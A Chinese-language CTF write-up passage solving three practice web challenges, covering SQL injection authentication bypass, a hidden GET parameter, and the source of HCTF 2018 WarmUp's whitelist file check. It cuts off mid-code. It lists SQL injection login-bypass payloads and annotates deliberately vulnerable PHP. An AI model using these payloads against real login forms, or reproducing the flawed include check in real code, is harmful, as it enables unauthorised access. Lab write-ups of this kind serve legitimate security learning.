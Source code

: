 ## [极客大挑战 2019]EasySQL

```
# 万能公式
1 and 1=1
1' and '1'='1
1 or 1=1 
1' or '1'='1

```

用万能密码登录**1' or  '1'='1**

![image-20230412190347772](https://dabai-1316520326.cos.ap-nanjing.myqcloud.com/img/image-20230412190347772.png)

## [极客大挑战 2019]Havefun

查看网页源代码，get方式传入cat=dog即可

## [HCTF 2018]WarmUp

查看源代码，得到提示

![image-20230412191003372](https://dabai-1316520326.cos.ap-nanjing.myqcloud.com/img/image-20230412191003372.png)

对源码进行解析

```
<?php
    highlight_file(__FILE__);
    class emmm
    {
        public static function checkFile(&$page)
        {
            $whitelist = ["source"=>"source.php","hint"=>"hint.php"];
            //条件一：page的值为空或者不是字符串，那么不通过
            if (! isset($page) || !is_string($page)) {
                echo "you can't see it";
                return false;
            }
			//条件二：page的值在白名单中，则通过
            if (in_array($page, $whitelist)) {
                return true;
            }
			//返回page中从第0位开始到第一个？出现的位置，之间的值赋给page
            $_page = mb_substr(
                $page,
                0,
                mb_strpos($page . '?', '?')//查找字符串在另一个字符串中首次出现的位置
            );
            //条件三：page中?之前的值在白名单中，则通过
            if (in_array($_page, $whitelist)) {
                return true;
            }
			//将url编码后的字符串还原成未编码的样子，然后赋值给page
            $_page = urldecode($page);
            //返回page中从第0位开始到第一个？出现的位置，之间的值赋给page
            $_page = mb_substr(
                $_page,
                0,
                mb_strpos($_page . '?', '?')//查找字符串在另一个字符串中首次出现的位置
            );
            //条件四：page还原成未编码之后，?前面的值是否在白名单内，是则通过
            if (in_array($_page, $whitelist)) {
```